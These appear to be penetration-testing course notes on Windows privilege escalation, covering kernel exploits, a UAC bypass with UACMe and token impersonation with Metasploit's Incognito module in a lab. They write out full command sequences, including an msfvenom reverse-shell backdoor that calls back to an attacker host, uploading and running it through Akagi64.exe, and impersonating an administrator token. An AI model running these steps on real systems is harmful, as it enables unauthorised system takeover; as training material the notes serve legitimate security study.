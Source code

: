 
# Windows Privilege Escalation
#### Windows Kernel Exploits:
##### Elevate privileges from one user to another, a user with administrative or root access
#### Windows Kernal
- kernel is a computer program that is the core of an operating system
- Windows NT is the kernel that comes pre-packed with all versions of Microsoft Windows
- has two main modes
	- User Mode 
	- Kernel Mode - has unrestricted access
#### Windows Kernal Exploitation
- privilege escalation on Windows systems will follow the following methodology
	- identifying Kernel vulnerabilities
	- downloading, compiling and transferring kernel exploits onto the target system
- process differs for different Windows versions
- tools
	- Windows-Exploit-Suggester
	- Windows-Kernel-Exploits
- techniques - Manually, Metasploit
- Metasploit
	- obtain a meterpreter session on your target
	- use a the suggester module to check kernel vulns
	- use an exploit
	- that is it
- Manually
	- use two previous tools

### Bypassing UAC with UACMe
- User Account Control
	- windows security feature
- Bypassing UAC
- have access to a user account that is part of local administrator group
- tools to be used depends on the version of windows running
- UACMe - tool
	- allows attackers to execute malicious payloads with administrative privileges
- Process
- `$ nmap -sV 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ setg RHOSTS 10.10.10.10`
- `$ search rejetto``
- `$ use `
- `$ set options`
- `$ run`
- Check if the user is part of the administrator group
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate 2448`
- `$ sysinfo`
- `$ getprivs`
- `$ shell`
- `$ net user`
- `$ net localgroup administrators`
- **using UACMe**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe > backdoor.exe`
- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST your IP`
- `set LPORT 1234`
- `run`
- back to first Metasploit
- `cd C:\\`
- `mkdir Temp`
- `cd Temp`
- `upload backdoor.exe`
- `upload /root/Desktop/tools/UACME/Akagi64.exe`
- `shell`
- `.\Akagi64.exe 23 C:\Temp\backdoor.exe`
- back to second Metasploit

### Access Token Impersonation
- are core element of the authentication process on windows
- are created and managed by the Local Security Authority Subsystem Service (LSASS)
- controls what users can and cannot on the system
- two types
	- Impersonate-level tokens
	- Delegate-level tokens
- privilleges are required for successful impersonation attack
	- SeAssignPrimaruToken
	- SeCreateToken
	- SelmpersonatePrivilege
- The Incognito Module
	- built-in meterpreter module
	- we use for displaying a list of available tokens that we can impersonate
- **sample process** 
- `$ nmap 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ search rejetto`
- `$ use 0`
- `$ set options`
- `$ run`
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- we have the SeImpersonatePrivilege
- **using Incognito module**
- `$ load incognito`
- `$ list_tokens -u `
- `$ impersonate_token "Attackdefence\admmm...."`
- `$ getuid`
- `$ getprivs`
- `$pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- if you don't get the tokens, use the potato attack - will be discussed in another video

